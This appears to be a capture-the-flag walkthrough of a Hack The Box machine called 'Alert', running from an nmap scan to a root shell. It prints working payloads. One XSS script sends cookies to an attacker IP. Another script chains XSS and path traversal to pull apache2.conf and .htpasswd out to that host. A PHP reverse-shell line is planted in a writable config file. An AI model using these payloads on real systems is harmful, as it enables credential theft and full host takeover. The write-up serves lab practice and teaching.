

### Port Scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 26 17:13:16 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.129.68.51
Nmap scan report for 10.129.68.51
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   82.05 ms 10.10.14.1
2   82.72 ms 10.129.68.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 17:13:37 2024 -- 1 IP address (1 host up) scanned in 21.01 seconds

```

### Enumeration

```shell
┌──(kali㉿kali)-[~/HTB/Alert]
└─$ ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
------------------
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb:80/ -H 'Host: FUZZ.alert.htb' -fc 301 
```







### XSS

By **Contact Us** page we are able to perform XSS attack:

```html
<script>fetch('http://10.10.14.72:8090?cookie=' + document.cookie);</script>
```



Put the below script in a **.md** file:

```javascript
<script>
  // Fetch the content of the specified file
  fetch("http://alert.htb/messages.php?file=../../../../../../../etc/apache2/apache2.conf")
    .then(response => response.text()) // Convert the response to text
    .then(data => {
      // Send the fetched data to a specified server
      fetch("http://10.10.14.72:8888/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>

<!--  -->
```

Meanwhile start a python http server:

```python
python -m http.server 8888
```

Then go to **Contact Us** page:





```XML
%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A
```

```XML
<pre><VirtualHost *:80>
    ServerName alert.htb
    DocumentRoot /var/www/alert.htb
    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>

```

Now repeat the procedure trying to acces **.htpasswd** file, replacing the path in the script:

```python
http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd
```

After retriggering the XSS from Contact Us form we'll get:



```HTML
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24i******************
_______________
DECODED: 
<pre>albert:$apr1$*********Q/</pre>
```

Cracked it with haschat:



```shell
albert:m********
```

Login trough SSH into albert:



```shell
userflag:de185f1ff*******************
```

### Privilege Escalation

From netsat we can see that there is a service running on port **8080**







The file **/opt/website-monitor/config/configuration.php** is writeable:



Add this line to **configuration.php** 

```shell
$sock=fsockopen("10.10.14.72",9909);shell_exec("/bin/sh -i <&3 >&3 2>&3");
```

```shell
curl http://localhost:8080/config/configuration.php
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9909
listening on [any] 9909 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.161.22] 59662
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
scripts
# cat root.txt  
```



```shell
rootflag:238a5640d5acdd*****************
```
